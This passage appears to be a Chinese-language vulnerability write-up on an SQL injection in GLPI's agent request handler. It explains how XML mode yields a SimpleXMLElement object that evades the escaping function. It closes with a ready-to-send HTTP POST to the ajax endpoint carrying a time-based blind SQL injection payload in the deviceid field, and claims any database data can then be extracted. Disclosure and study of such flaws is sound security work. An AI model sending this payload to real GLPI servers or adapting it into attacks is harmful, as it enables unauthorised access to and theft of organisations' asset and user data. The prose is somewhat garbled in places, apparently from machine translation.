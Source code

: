 在handleRequest解析代理请求的函数中，可以使用XML和JSON两种方式执行代理请求。  
```
<?php
        switch ($this->mode) {
            case self::XML_MODE:
                return $this->handleXMLRequest($data);
            case self::JSON_MODE:
                return $this->handleJSONRequest($data);
        }
```  
  
虽然JSON_MODEonly 执行快速json_decode，但它只能创建string、array、integer和stdClass对象（这本身并不具备__toString函数功能）。然而 可以根据用户输入XML_MODE创建一个对象。SimpleXMLElement  
```
<?php
    public function handleXMLRequest($data): bool
    {
        libxml_use_internal_errors(true);
        if (mb_detect_encoding($data, 'UTF-8', true) === false) {
            $data = iconv('ISO-8859-1', 'UTF-8', $data);
        }
        $xml = simplexml_load_string($data, 'SimpleXMLElement', LIBXML_NOCDATA);
```  
  
这是绕过该函数的完美候选dbEscapeRecursive，因为它是一个可以轻松转换为字符串的对象。  
```
php > $xml = simplexml_load_string('<test>a</test>');
php > var_dump($xml);
object(SimpleXMLElement)#2 (1) {
  [0]=>
  string(1) "a"
}
php > var_dump($xml."toString");
string(9) "atoString"
```  
  
最终请求  
  
为了利用此漏洞，需要精心设计一个针对代理请求端点的 XML 请求，并利用简单的基于时间的攻击来利用 SQL 注入。  
```
POST /index.php/ajax/ HTTP/1.1
Host: glpi
User-Agent: python-requests/2.32.3
Content-Type: application/xml
Content-Length: 232
<?xml version="1.0" encoding="UTF-8"?>
    <xml>
    <QUERY>get_params</QUERY>
    <deviceid>', IF((1=1),(select sleep(5)),1), 0, 0, 0, 0, 0, 0);#</deviceid>
    <content>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</content>
</xml>
```  
  
使用这个简单的请求，由于条件为真，服务器将休眠 5 秒1=1。现在可以使用当前 GLPI 数据库用户的权限从数据库中提取任何数据。  
  
